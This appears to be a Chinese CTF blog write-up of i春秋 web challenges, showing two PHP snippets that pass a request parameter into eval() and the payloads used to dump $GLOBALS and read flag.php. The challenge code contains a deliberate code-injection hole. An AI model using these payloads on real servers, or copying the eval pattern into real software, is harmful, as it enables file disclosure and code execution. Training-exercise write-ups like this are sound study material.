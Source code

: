 ```yaml
---
title: i 春秋 Web 练习记录
date: 2019-08-24
tags:
  - PHP
  - Hash
  - 古典密码与编码
  - SQLi
  - 文件上传
  - 反序列化
categories:
  - Web 安全
---
```


i 春秋上的题都是比赛真题，所以会比较有意思，也更复杂一些。



## 爆破 - 1

```php
<?php
include "flag.php";
$a = @$_REQUEST['hello'];
if(!preg_match('/^\w*$/',$a)){
  die('ERROR');
}
eval("var_dump($$a);");
show_source(__FILE__);
?>
```

要求参数 `hello` 为纯字母，又看到 `eval(var_dump($$a));` 语句，可以想到使用 `$GLOBALS` 打印出所有变量，payload：

```
?hello=GLOBALS
```

等等，好像没爆破啊？感觉是非预期解。

## 爆破 - 2

```php
<?php
include "flag.php";
$a = @$_REQUEST['hello'];
eval("var_dump($a);");
show_source(__FILE__);
```

提示 `flag` 不在变量中，那么只能直接读 `flag.php` 文件了，payload：

```
?hello=file('flag.php')
```
